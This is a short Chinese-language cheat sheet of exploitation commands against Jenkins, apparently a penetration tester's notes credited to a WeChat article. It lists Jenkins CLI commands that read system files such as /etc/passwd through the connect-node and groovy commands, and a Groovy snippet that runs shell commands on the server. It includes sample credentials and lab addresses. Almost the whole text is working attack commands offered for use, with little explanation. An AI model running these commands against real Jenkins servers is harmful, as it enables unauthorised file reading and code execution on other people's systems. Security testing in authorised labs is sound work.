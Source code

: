 ## 一些利用命令
- 如何获得jenkins-cli.jar？ 
`从Jenkins的系统中去下载，http://127.0.0.1:8080/jnlpJars/jenkins-cli.jar`
- 如何获取全部文件内容？
`java -jar jenkins-cli.jar -s http://127.0.0.1:8080/ -auth test_2024:test_2024 -webSocket connect-node @/etc/passwd`
- 查看版本：
`java -jar jenkins-cli.jar -s http://192.168.2.110:8090 version`
- 如何通过Jenkins Cli去执行groovy代码

```
java -jar jenkins-cli.jar -s http://192.168.2.110:8090 groovy @/etc/passwd
java -jar jenkins-cli.jar -s http://192.168.2.110:8090 groovysh @/etc/passwd

挂个代理观察
java -Dhttp.proxyHost=127.0.0.1 -Dhttp.proxyPort=9999 -jar jenkins-cli.jar -s http://172.16.11.1:8081/ -webSocket -auth user:bitnami groovy = < 1.txt

1.txt中放groovy代码如下：

def command = "ls -l"
def process = command.execute()
process.waitFor()
def output = process.text
def exitCode = process.exitValue()
println "Command Output:$output"
println "Exit Code: $exitCode"
 
来自：https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw 
```
